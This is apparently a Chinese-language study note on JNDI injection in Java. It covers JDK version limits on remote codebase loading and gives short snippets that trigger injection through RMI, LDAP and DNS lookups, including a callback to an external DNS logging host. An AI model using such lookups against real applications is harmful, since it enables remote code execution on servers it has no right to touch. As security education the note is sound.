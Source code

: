 # 2-邂逅各种注入

**邂逅 —— 「雨伞倾斜的第二次偶然」**

## 1. jndi注入

### 1.1 背景知识

> The **Java Naming and Directory Interface** (**JNDI**) is a Java [API](https://en.wikipedia.org/wiki/Application_programming_interface) for a [directory service](https://en.wikipedia.org/wiki/Directory_service) that allows Java software clients to discover and look up data and resources (in the form of Java [objects](https://en.wikipedia.org/wiki/Object_(computer_science))) via a name. Like all [Java](https://en.wikipedia.org/wiki/Java_(programming_language)) APIs that interface with host systems, JNDI is independent of the underlying implementation.

简单来说，JNDI 就像Java里的“电话簿”，让你可以通过名字找到各种资源（如Java对象、数据库、EJB、消息队列等）和各种目录服务如LDAP、DNS、RMI Registry等），无论它们是在本地还是远程服务器上。

这里主要记录LADP、RMI、DNS 协议的攻击。

* **版本限制** 

JDK 6u141、7u131、8u121之后：增加了`com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了`com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

<img src="https://cdn.jsdelivr.net/gh/Rain1er/images@main/img/20200419225882.png" alt="image.png" style="zoom:50%;" />



## 1.2 利用手法

> 当开发者在定义 JNDI 接口初始化时，lookup() 方法的参数可控，攻击者就可以将恶意的 url 传入参数远程加载恶意载荷，造成注入攻击。

最初公开于BlackHat 2016（USA）

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf



### 1.2.1 利用RMI协议注入

> `Remote Method Invocation` JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象

```java
String uri = "rmi://127.0.0.1:1099/Exploit";    // 指定查找的对象,传入攻击者可控的RMIServer,其中包含恶意类
InitialContext initialContext = new InitialContext();// 得到初始目录环境的一个引用
initialContext.lookup(uri); // 获取指定的远程对象
```



### 1.2.2 利用LDAP协议注入

>  `Lightweight Directory Access Protocol` 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("ldap://127.0.0.1:7777/Exp");
```



### 1.2.3 利用DNS协议注入

```java
InitialContext initialContext = new InitialContext();
initialContext.lookup("dns://c17208f0.log.cdncache.rr.nu.");    // 关闭clash的tun模式
```



具体示例代码见

## 1.3 原理分析 & 高版本的绕过

todo

